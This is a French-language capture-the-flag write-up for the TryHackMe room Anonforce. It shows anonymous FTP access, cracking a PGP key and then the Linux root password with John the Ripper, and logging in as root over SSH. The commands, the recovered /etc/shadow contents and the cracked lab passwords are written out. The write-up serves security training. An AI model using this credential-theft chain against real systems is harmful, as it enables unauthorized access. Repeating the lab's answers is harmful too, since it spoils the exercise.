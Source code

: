 
---

## Write-up – Exploitation du service FTP anonyme sur Anonforce (Try Hack Me)

### Informations de base

**Adresse IP cible** : `10.10.137.215`  
**Ports ouverts** :
- **21/tcp** : FTP (vsftpd 3.0.3) – accès anonyme autorisé
- **22/tcp** : SSH (OpenSSH 7.2p2)

---

### 1. Connexion FTP anonyme

Connexion au service FTP avec l’utilisateur `ftp`, sans mot de passe.  
Accès direct à l’arborescence du système avec possibilité de lire certains fichiers sensibles.

Un répertoire nommé **`notread`** attire l’attention. Il contient deux fichiers :
- `private_key.pgp`
- `backup.pgp`

---

### 2. Récupération et analyse de la clé PGP

Les deux fichiers sont téléchargés localement.  
Extraction du hash de la clé privée avec `gpg2john` :

```bash
~/john/gpg2john private_key.pgp > hash.txt
~/john/run/john --wordlist=~/kali-wordlist/rockyou.txt hash.txt
```

Le mot de passe trouvé est :

```
xbox360
```

---

### 3. Déchiffrement de `backup.pgp`

Importation de la clé privée :

```bash
gpg --import ~/private.asc
```

Déchiffrement du fichier :

```bash
gpg --decrypt ~/backup.pgp
```

Le contenu du fichier correspond à **`/etc/shadow`**.

---

### 4. Crackage des mots de passe Linux

Récupération du fichier **`/etc/passwd`** (disponible via FTP également).  
Fusion des deux fichiers avec `unshadow` :

```bash
./john/run/unshadow passwd shadow.txt > unshadow.txt
```

Crackage avec `john` :

```bash
john --wordlist=~/kali-wordlists/rockyou.txt unshadow.txt
```

Mot de passe root récupéré :

```
root : hikari
```

---

### 5. Connexion SSH et récupération du flag

Connexion SSH en tant que root :

```bash
ssh root@10.10.137.215
```

Lecture du flag :

```bash
cat /root/root.txt
```

---

### Résumé des credentials

| Utilisateur | Mot de passe |
|-------------|--------------|
| Clé PGP     | xbox360      |
| root (SSH)  | hikari       |

---

### Notes complémentaires

**Scan Nmap** :

- FTP anonyme autorisé
- Système Linux avec noyau 5.4
- Possibilité de parcourir une grande partie du système de fichiers via FTP

---
